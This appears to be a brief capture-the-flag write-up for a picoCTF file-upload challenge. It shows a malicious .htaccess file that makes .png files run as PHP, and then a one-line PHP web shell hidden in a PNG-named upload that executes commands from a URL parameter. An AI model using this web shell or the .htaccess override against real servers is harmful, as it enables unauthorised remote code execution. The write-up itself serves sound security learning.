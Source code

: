 # URL
https://play.picoctf.org/practice/challenge/518
# Concept
* file upload attack
* overwriting `.htaccess` file
# Method of solve
* we have a file upload function on the landing page
* we want to upload a malicious file with PHP code in it to get webshell code execution
* this server allows us to upload our own `.htaccess` file, which we could use to get PHP code execution on files without a PHP file extension
* we can create a malicious `.htaccess` file with the following contents:
```
AddType application/x-httpd-php .png
Options +Indexes
```
* after uploading this file we can upload a file with PHP webshell content, but have the file retain the .png file extension
* The contents of the file might look like this:
```
PNG
<?=`$_GET[0]`?>
```
* after that, we can access the png file, and it will execute PHP code with the `0` URL parameter
* the flag is in the `/var` directory


